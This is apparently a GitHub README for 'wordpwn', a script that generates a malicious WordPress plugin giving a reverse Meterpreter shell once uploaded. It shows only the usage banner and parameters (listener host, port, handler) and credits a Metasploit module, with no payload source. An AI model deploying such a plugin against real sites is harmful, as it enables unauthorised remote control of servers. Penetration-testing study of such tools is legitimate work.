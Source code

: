 # malicious-wordpress-plugin
Simply generates a wordpress plugin that will grant you a reverse shell once uploaded. I reccomend installing Kali Linux, as msfvenom is used to generate the payload.

#### Usage Example
```sh
root@wetw0rk:~# python wordpwn.py 
__        __            _
\ \      / /__  _ __ __| |_ ____      ___ __
 \ \ /\ / / _ \|  __/ _  |  _ \ \ /\ / /  _ \ 
  \ V  V / (_) | | | (_| | |_) \ V  V /| | | |
   \_/\_/ \___/|_|  \__,_| .__/ \_/\_/ |_| |_|
                         |_|


Usage: wordpwn.py [LHOST] [LPORT] [HANDLER]
Example: wordpwn.py 192.168.0.6 8888 Y
```

### How and When do I use this?

Usage is super simple, simply pass wordpwn your listening address and listening port. You are also given the option to start a handler, I recommend that you do... since by default the plugin will be made using a php/meterpreter/reverse_tcp shell. If you have your own nefarious PHP payload simply adjust the script to accept it. If usage is still a mystery to you [JavaRockstar](https://github.com/JavaRockstar) has made a tutorial on his website which can be found here [HackingVision](https://hackingvision.com/2017/04/11/hacking-wordpress-website-malicious-plug/).

### PLEASE READ!
I want to be 100% sure that I give credit to [Rob Carr](https://www.rastating.com/). Rob Carr is the author of the Metasploit module wp_admin_shell_upload, which this script is based on. You can find more information on his module at [Rapid7](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload) .
